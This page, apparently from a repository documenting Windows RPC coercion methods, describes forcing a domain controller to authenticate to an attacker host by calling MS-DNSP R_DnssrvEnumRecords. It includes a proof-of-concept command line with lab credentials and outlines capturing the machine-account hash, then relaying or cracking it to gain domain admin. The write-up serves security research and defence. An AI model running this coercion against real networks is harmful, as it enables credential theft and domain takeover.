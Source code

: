 # MS-DNSP - Remote call to R_DnssrvEnumRecords (opnum 3)

## Summary

 - **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

 - **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `\PIPE\DNSSERVER`

 - **Function name**: [`R_DnssrvEnumRecords`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/d0251c9b-9e3e-4eec-bcc5-eb6b995b6108)

 - **Function operation number**: `3`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvEnumRecords`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/d0251c9b-9e3e-4eec-bcc5-eb6b995b6108) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvEnumRecords('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvEnumRecords(
   [in]                                    handle_t             hBindingHandle,
   [in, unique, string]                    LPCWSTR              pwszServerName,
   [in, unique, string]                    LPCSTR               pszZone,
   [in, unique, string]                    LPCSTR               pszNodeName,
   [in, unique, string]                    LPCSTR               pszStartChild,
   [in]                                    WORD                 wRecordType,
   [in]                                    DWORD                fSelectFlag,
   [in, unique, string]                    LPCSTR               pszFilterStart,
   [in, unique, string]                    LPCSTR               pszFilterStop,
   [out]                                   PDWORD               pdwBufferLength,
   [out, size_is(, *pdwBufferLength)]      PBYTE*               ppBuffer
 );
```

## References

 - Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

 - Documentation of function `R_DnssrvEnumRecords`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/d0251c9b-9e3e-4eec-bcc5-eb6b995b6108
